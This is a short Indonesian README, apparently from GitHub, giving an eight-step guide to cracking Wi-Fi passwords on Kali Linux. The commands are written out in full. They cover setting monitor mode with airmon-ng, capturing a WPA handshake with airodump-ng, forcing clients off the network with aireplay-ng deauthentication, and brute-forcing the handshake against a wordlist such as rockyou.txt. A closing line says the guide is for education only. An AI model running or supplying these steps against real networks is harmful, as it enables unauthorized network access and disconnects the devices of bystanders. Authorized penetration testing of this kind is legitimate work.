 # Penetrasi
Penetrasi jaringan WIFI menggunakan kali linux

1. Mengubah mode Wi-Fi menjadi monitor mode.
   (sudo airmon-ng start wlan0)

2. Cari SSID jaringan yang ingin Anda uji, lalu catat BSSID dan channel-nya.
   (sudo airodump-ng wlan0)

3. Menangkap handshake.
   (sudo airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0)
   Ganti [channel] dengan nomor channel, [BSSID] dengan alamat jaringan, dan [output_file] dengan nama file hasil tangkapan.

4. Lakukan deauthentication (memutuskan perangkat) untuk memicu handshake.
   (sudo aireplay-ng --deauth 10 -a [BSSID] wlan0)

5. aircrack-ng untuk mencoba memecahkan handshake.
   (sudo aircrack-ng -w [wordlist] -b [BSSID] [output_file]-01.cap)
   Ganti [wordlist] dengan lokasi file wordlist (contoh: /usr/share/wordlists/rockyou.txt) dan [output_file]-01.cap dengan file hasil tangkapan.

6. Jika kata sandi ditemukan, akan ditampilkan di terminal.

7. menampilkan Handshake.
   (aircrack-ng nama-file.cap)

8. Melihat aktifitas jaringan sesuai bssid.
   (sudo airodump-ng wlan0)
   Perhatikan kolom STATION.

hanya untuk edukasi, semoga berhasil..
